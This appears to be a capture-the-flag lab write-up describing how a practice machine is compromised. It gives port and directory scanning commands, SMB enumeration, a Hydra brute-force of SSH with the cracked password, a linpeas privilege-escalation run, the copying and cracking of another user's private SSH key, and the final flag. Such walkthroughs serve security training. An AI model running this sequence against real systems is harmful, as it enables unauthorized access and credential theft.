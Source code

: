 Tools used:
 - Nmap
 - dirbuster
 - Hydra
 - LinPeas.sh

1. Scanning the target machine

`nmap -A -vv -Pn <target-ip>`

Exposed Ports:
 - 22
 - 139 & 445 (SMB)
 - 80
 - 8080

2. Enumerate the services running (dirbuster/gobuster)

`dirbuster -l /path/to/wordlist/file/wordlist.txt http://<target-ip>`

Discovered Paths:
 - /development/
 - /development/dev.txt
 - /development/j.txt

Files in /development info:
 - port 80 is hosted on apache
 - one employee has a weak password, so it might be crackable(ssh possibly)

3. Enumerate SMB with enum4linux
`enum4linux -a <IP_address>` < enumerate everything

Discovered info:
 - kay
 - jan
 - //10.10.168.206/Anonymous (smb share)
 - Samba Server 4.3.11-Ubuntu


5. Bruteforce the ssh connection with Hydra

`hydra -l username-found -P /usr/share/wordlists/rockyou.txt  10.10.168.206 ssh -t 32`
 -l specifies a user name
 -L specifies a user wordlist
 -p specifies a password
 -P specifies a password list
 -t number of simultaneous threads(default 32)

 Discovered Info:
  - usr: jan | password: armando


6. Enumerate the target machine(from the inside)
 - `scp linpeas.sh jan@10.10.168.206:/dev/shm` < send LinEnum to  [ref: https://github.com/peass-ng/PEASS-ng/releases/tag/20240623-7d729c04]
 - chmod +x /dev/shm/linpeas.sh
 - ./linpeas.sh

Discovered info:
- kay has an exposed private rsa key

7. crack kay's priv key passphrase
- `scp jan@10.10.168.206:/home/kay/.ssh/id_rsa .`
- `ssh2john id_rsa > id_rsa.hash`
- `john id_rsa.hash -wordlist=/usr/share/wordlists/rockyou.txt`

Discovered Info:
 - key passphrase: beeswax



8. Got the flag inside kay's session
 - heresareallystrongpasswordthatfollowsthepasswordpolicy$$
